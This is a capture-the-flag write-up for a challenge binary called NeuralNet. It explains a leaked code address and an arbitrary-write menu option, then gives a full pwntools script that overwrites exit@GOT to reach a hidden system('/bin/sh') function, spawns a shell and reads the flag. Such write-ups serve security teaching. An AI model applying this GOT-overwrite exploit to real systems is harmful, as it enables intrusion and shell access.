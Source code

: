 # NeuralNet - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/NeuralNet.gif)

---

## Challenge Summary

The Neural Net Simulator binary provides a menu-driven interface with several functions, including a debug option that allows arbitrary memory writes by letting the user overwrite a "neuron" address with a new value. The program leaks the address of the predict_outcome function at startup, enabling us to calculate the base address of the binary.

The exploit involves using this leak to compute the binary’s base address and then overwriting the exit() entry in the Global Offset Table (GOT) with the address of the hidden unlock_secret_research_data() function. By selecting option 4 (Exit), the program will call this overwritten GOT entry, granting shell access via system("/bin/sh").

## Binary Information

```bash
$ file NeuralNet
```

![Alt text](img/2.png)

```bash
$ checksec NeuralNet
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

![Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

![Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

![Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

![Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Leak the Binary Base Address

At startup, the program prints the address of the `predict_outcome` function.
We use this leak to calculate the **base address** of the binary.

### Step 2: Overwrite `exit@GOT`

Using the "Neural Intervention" option (option 3), we perform an **arbitrary write** to overwrite the **GOT entry for `exit()`** with the address of the hidden `unlock_secret_research_data()` function.

### Step 3: Trigger the Payload

We select menu option 4 (Exit), which causes the program to call `exit()`.
Because we overwrote its GOT entry, control is redirected to `unlock_secret_research_data()`, which executes `system("/bin/sh")`.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template NeuralNet --host ctf.mf.grsu.by --port 9076
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'NeuralNet')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9076)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# RUNPATH:    b'./'
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Prediction module address (predict_outcome): ')
exe.address = int(io.recvline().strip(),16) - exe.symbols['predict_outcome']
log.success(f"exe.address : {hex(exe.address)}")

exit_got = exe.got['exit']
ret2win = exe.symbols['unlock_secret_research_data']
io.sendline(b'3')
io.sendline(hex(exit_got).encode())
io.sendline(hex(ret2win).encode())
io.sendline(b'4')
io.sendline(b'cat flag.txt')
io.recvuntil(b"You've gained root access to the main dataset server.")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : {flag.decode()}")

```

---

## Exploit Output

![Alt text](img/8.png)

---

## Vulnerability Summary

- The binary **leaks a code address** (`predict_outcome`) on startup, allowing us to **calculate the binary base address**.
- The **"Neural Intervention"** feature provides an **arbitrary write primitive** via user-controlled memory writes.
- By overwriting the **GOT entry of `exit()`** with the address of `unlock_secret_research_data()`, we can redirect execution and spawn a shell.

---

## Flag

```
grodno{p3R3D08UchIL_n3ir053t_prY4M0_v_G0T}
```
